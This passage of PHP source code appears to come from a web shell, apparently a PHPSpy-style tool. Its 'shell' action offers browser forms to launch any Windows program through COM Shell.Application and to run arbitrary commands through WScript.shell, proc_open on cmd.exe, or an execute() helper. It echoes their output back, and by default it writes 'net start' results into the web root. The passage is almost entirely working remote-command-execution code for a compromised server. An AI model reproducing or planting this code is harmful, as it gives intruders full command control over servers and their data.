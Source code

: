 elseif ($action == 'shell') {
	if (IS_WIN && IS_COM) {
		if($program && $parameter) {
			$shell= new COM('Shell.Application');
			$a = $shell-&gt;ShellExecute($program,$parameter);
			m('Program run has '.(!$a ? 'success' : 'fail'));
		}
		!$program && $program = 'c:\windows\system32\cmd.exe';
		!$parameter && $parameter = '/c net start &gt; '.SA_ROOT.'log.txt';
		formhead(array('title'=&gt;'Execute Program'));
		makehide('action','shell');
		makeinput(array('title'=&gt;'Program','name'=&gt;'program','value'=&gt;$program,'newline'=&gt;1));
		p('&lt;p&gt;');
		makeinput(array('title'=&gt;'Parameter','name'=&gt;'parameter','value'=&gt;$parameter));
		makeinput(array('name'=&gt;'submit','class'=&gt;'bt','type'=&gt;'submit','value'=&gt;'Execute'));
		p('&lt;/p&gt;');
		formfoot();
	}
	formhead(array('title'=&gt;'Execute Command'));
	makehide('action','shell');
	if (IS_WIN && IS_COM) {
		$execfuncdb = array('phpfunc'=&gt;'phpfunc','wscript'=&gt;'wscript','proc_open'=&gt;'proc_open');
		makeselect(array('title'=&gt;'Use:','name'=&gt;'execfunc','option'=&gt;$execfuncdb,'selected'=&gt;$execfunc,'newline'=&gt;1));
	}
	p('&lt;p&gt;');
	makeinput(array('title'=&gt;'Command','name'=&gt;'command','value'=&gt;htmlspecialchars($command)));
	makeinput(array('name'=&gt;'submit','class'=&gt;'bt','type'=&gt;'submit','value'=&gt;'Execute'));
	p('&lt;/p&gt;');
	formfoot();

	if ($command) {
		p('&lt;hr width="100%" noshade /&gt;&lt;pre&gt;');
		if ($execfunc=='wscript' && IS_WIN && IS_COM) {
			$wsh = new COM('WScript.shell');
			$exec = $wsh-&gt;exec('cmd.exe /c '.$command);
			$stdout = $exec-&gt;StdOut();
			$stroutput = $stdout-&gt;ReadAll();
			echo $stroutput;
		} elseif ($execfunc=='proc_open' && IS_WIN && IS_COM) {
			$descriptorspec = array(
			   0 =&gt; array('pipe', 'r'),
			   1 =&gt; array('pipe', 'w'),
			   2 =&gt; array('pipe', 'w')
			);
			$process = proc_open($_SERVER['COMSPEC'], $descriptorspec, $pipes);
			if (is_resource($process)) {
				fwrite($pipes[0], $command."\r\n");
				fwrite($pipes[0], "exit\r\n");
				fclose($pipes[0]);
				while (!feof($pipes[1])) {
					echo fgets($pipes[1], 1024);
				}
				fclose($pipes[1]);
				while (!feof($pipes[2])) {
					echo fgets($pipes[2], 1024);
				}
				fclose($pipes[2]);
				proc_close($process);
			}
		} else {
			echo(execute($command));
		}